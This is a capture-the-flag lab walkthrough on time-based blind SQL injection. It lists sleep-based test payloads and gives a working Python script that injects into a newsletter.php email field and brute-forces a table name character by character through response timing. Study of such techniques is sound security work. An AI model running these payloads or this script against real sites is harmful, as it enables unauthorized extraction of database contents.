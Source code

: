 ```yaml
---
date: 2025-02-08
categories: [CTF, IML]
title: "IML - SQL Injection – Time-Based Blind"
tags: ['http', 'sql', 'sqli', 'rce']

description: "SQL Injection – Time-Based Bl - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection – Time-Based Blind

[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi)

**<u>To test for time-based sqli:</u>**
Example:
```bash
http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5\*5),0))OR'
```
or use:
**' OR SLEEP(5) AND '1'='1**
or
**'AND (SELECT \* FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe**

If the websites hangs for a bit, it means it is vulnerable to this kind of attack


![image1](../resources/0ea334980e34492093c4a7564082592d.png)


![image2](../resources/048d06d477a3420e9537d1315fe5ded8.png)

- Edit script (below) with parameters


![image3](../resources/d5f84473a07445e39af788ad44b0c701.png)

DB_name (script below)


![image4](../resources/42d7108f995746d1973bb6b4cc360e77.png)

Table_name (script below)


![image5](../resources/a18612f005af4f699d29aec9ac07fad9.png)

Column_name(script below)


![image6](../resources/208b3c33cdbb47f586ad222089318e9f.png)

Find flag


![image7](../resources/f15c06b5f66e4b90a9d2128af08c19d0.png)

**Ignore capitals and weird characters**


![image8](../resources/4b57281e766f4f77a4225d5d83867ffb.png)

Make sure to put the queries in their own ( )

**<u>Time-Based Bruteforce Database name script</u>**


![image9](../resources/ded6c258929345789f2ffe7614ec744c.png)

**<u>Time-Based Bruteforce Table name script</u>**


![image10](../resources/72335977ed8b4427a695b6c17c6ab8f2.png)

**<u>Time-Based Bruteforce Column name script</u>**


![image11](../resources/db532af227954c6d8796124e71b2ed5e.png)

**<u>Find flag</u>**


![image12](../resources/b408bf05364d4936a6d8c932e17e473e.png)

**<u>Script:</u>**

```python
import requests
import sys
import time

# Send the payload to the vulnerable parameter on the target host
# If it takes 5 seconds or longer to get a reply, return True
def send_payload(ip, payload):
    start = time.time()
    r = requests.get(
        "http://%s/newsletter.php?name=test&email=test' OR IF (%s, sleep(5), 'NO') AND '1'='1'" % (ip, payload)
    )
    end = time.time()
    return (end - start) >= 5

# Brute-force the length of the database table name
# Then iterate over characters to brute-force the table name
def brute_db(ip):
    length = 0
    for i in range(0, 100):
        if send_payload(ip, "LENGTH((select table_name from information_schema.tables where table_schema=database()))='%d'" % i):
            length = i
            break

    print("Length: %d" % length)
    sys.stdout.write("Dumping: ")
    sys.stdout.flush()

    db_name = ""
    for i in range(1, length + 1):
        for j in range(96, 123):  # ASCII a-z
            if send_payload(ip, "SUBSTRING((select table_name from information_schema.tables where table_schema=database()),%d,1)='%s'" % (i, chr(j))):
                db_name += chr(j)
                sys.stdout.write(chr(j))
                sys.stdout.flush()
                break
    sys.stdout.write("\n")
    sys.stdout.flush()
    return db_name

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % sys.argv[0])
        sys.exit(1)

    ip = sys.argv[1]
    db_name = brute_db(ip)
    print("DB name: %s" % db_name)

if __name__ == "__main__":
    main()


```